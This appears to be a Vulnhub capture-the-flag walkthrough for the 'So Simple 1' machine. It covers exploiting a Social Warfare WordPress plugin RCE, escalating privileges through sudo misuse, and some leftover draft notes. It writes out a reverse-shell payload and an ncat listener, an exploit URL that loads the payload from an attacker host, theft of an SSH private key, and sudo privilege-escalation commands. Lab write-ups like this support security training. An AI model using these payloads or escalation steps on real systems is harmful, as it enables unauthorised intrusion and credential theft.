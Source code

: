 # So Simple 1

---

Machine by [@roelvb79](https://twitter.com/roelvb79)

Vulnhub [link](https://www.vulnhub.com/entry/so-simple-1,515/)

Objectives:

  * 2 user flags
  * 1 root flag

---

## Network scan


  
1. Use nmap to scan the network

    We'll use an intense scan on the victim vm (192.168.56.111), we can see web and ssh services running, but no aparent vulnerabilities yet.

    ![victim machine nmap scan result](img/1-nmap.png)
   
<br>

2. Visit the website

    If we visit the website we can see that there is only a big red image with the words "SO SIMPLE":
   
    ![website](img/2-website.png)

    And the website code doesn't reveal anything that's useful:

    ![website origin code](img/3-website_origin.png)

<br>

3. Attempt an ssh login

   Attempting to login with ssh shows it only accepts key authentication, thus ruling out ssh brute force with common passwords, if we want a way in we'll need an alternative


<br>

4. We'll run drib

    As there is no vulnerability that we can see in plain sight, dirb, will show us what are some sub-directories, and we can see that wordpress is installed:
  
    ![dirb website results](img/4-dirb.png)

<br>

5. Use WPScan

   As we saw on the las step wordpress is installed, WPScan will show wordpress, plugins and themes versions, as well as vulnerabilities associated with them, for this we'll need an api key that we can get by creating a free account.

   And we'll run the command:  `sudo wpscan --api-token <API> --url http://192.168.56.111/wordpress/ -e`
   
   ![wpscan result](img/5-wpscanFirst.png)

   Here we can see that the plugin "Social Warfare has an RCE vulnerability that is probably going to work:

   ![wpscan social warfare RCE](img/6-wpscanSocialWarfare.png)

   If we scroll down further we can see the wordpress users that exist, we can see "admin" and "max":

   ![wpscan users](img/7-wpscanUsers.png)

<br>

6. Prepare the exploit

   We can see that Social Warfare 3.5.0 has a RCE [vulnerability](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/). To exploit it we'll need a web server and a payload and a netcat listener to get a reverse shell.

    - Web server

       We need a web server to serve our payload, this will be apache as it's simple and comes pre-installed on kali, we only need to enable it:

       ![enable apache](img/7-apacheStart.png)


    - Netcat
 
       We need a netcat instance to listen to our reverse shell and catch it, this will use openssl and you can find more info on the [swisskeyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#openssl) repository by [Swissky](https://github.com/swisskyrepo).
   
       The command to execute will be `ncat --ssl -vv -l -p 4242`.
       This will listen for any connection on port 4242.
      
       ![running netcat listener](img/8-ncatListener.png)
 
    - Payload
      
       The payload also comes from the same repo and it will be placed on the file `/var/www/html/payload.txt` and contain the next code:
      
        ```system('mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_MACHINE:4242 > /tmp/s; rm /tmp/s')```

      ![cat of the payload](img/9-catPayload.png)

      The "ATTACKER_MACHINE" needs to be changed to our kali machine, in my case 192.168.56.1.. and the port needs to match the netcat listener above.

<br>

7. Using the exploit

   To run the exploit we need to visit the next url on a web browser:

   `http://WEBSITE/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt`

   The "ATTACKER_MACHINE" needs to be changed to our kali machine, in my case 192.168.56.1.. and "VICTIM_MACHINE to our so simple:1 vm, in my case 192.168.56.111

   Here we can see what happens after visiting the URL:
   
   ![Exploit on web browser result](img/10-exploitWeb.png)

   And if we go back to the ncat terminal we can see that it has established the connection and now we have a shell with the user "www-data":
   
   ![ncat receives the shell](img/11-exploitNcat.png)
   
<br>

8. Get a user ssh key

  If we cd into the .ssh folder of the user "max", we can copy his ssh key, it's called id_rsa, we can use cat to list it and then copy it into a file called "key" on our kali machine.
  
  ![copying the ssh key of user max](img/12-sshCopyKey.png)

  After copying id_rsa off of the user, we will add it into a file called key, it's important to change the file permissions to 700, and not using sudo to add the key:
  
  ![adding max's ssh key to our system](img/13-addingKey.png)

  And now we can ssh into the server as user max, add the fingerprint, and we'll have ssh access:

  ![connecting to user max with ssh](img/14-sshConnection.png)

9. Retreiving the first user flag.

  Once inside and as user "max", if we ls their home directory we can see "personal.txt" this file is not useful, "this" is a folder with a bunch of subfolders with a little easter-egg and "user.txt" wich is the user flag we're after:

  ![getting the flag with cat of the file user.txt](img/15-firstFlag.png)

10. Changing users

   First we'll use the command `sudo -l` to list what services or scripts we have access to as root, but without using a password:

   ![using sudo -l to list permissions](img/16-escalatingprivileges1.png)

   We can see that  we have access to the service `/usr/sbin/service`.

   After listing `/etc/passwd` we can see user steven, we can use `/usr/sbin/service` to change into user steven and dig further.

   To change users we would need either the root password or the other user's password, because we have root access to the service command, we can use it to our advantage:

   First of all we use sudo permissions to skip the steven login. Then `-u` to say we want to change user and `steven` to indicat to what user. Then `/usr/sbin/service` is the command we will execute, and `../../bin/bash` is the next command to execute, wich happens to be the shell that we want to use.
   
   `sudo -u steven /usr/sbin/service ../../bin/bash`

   ![using service to change into steven](img/17-escalatingprivileges2.png)

11. Getting the second Flag

   Once we have logged in as the user steven, we can navigate to his home directory and cat the second flag:

   ![getting the second flag on the user steven's home folder](img/18-secondFlag.png)

   We can also list the hidden contents of the user's home, but we can't see anything really useful:

   ![ls of hidden contents of user steven's home](img/19-escalatingtoroot1.png)
   
12. Escalating privileges to root.

   


---

---

# Ignore

13- once in we can cat the file user.txt and get the first flag
14- using "sudo -l" we'll know what the user has acces to use as root without asking a password, this will return that the user can use /usr/sbin/service.
15- we will use "sudo -u steven /usr/sbin/service ../../bin/bash" this will change to the user steven with the permissions of max /usr/sbin/service and will make sure that we acces the user with /bin/bash as the interpreter.
16- repeat "sudo -l" for user steven, will return a "/opt/tools/server-health.sh" file (non existant), we'll create the folder tools and file server-health.sh. this file will contain: 
#!/bin/bash

bash
17- then we will "chmod +x /opt/tools/server-health.sh"
18- we can use "sudo -u root /opt/tools/server-health.sh" to get root access to the machine.
19- copy the root's ssh private key for direct root access to the machine, and get the flag from inside the root's home folder
WpScan
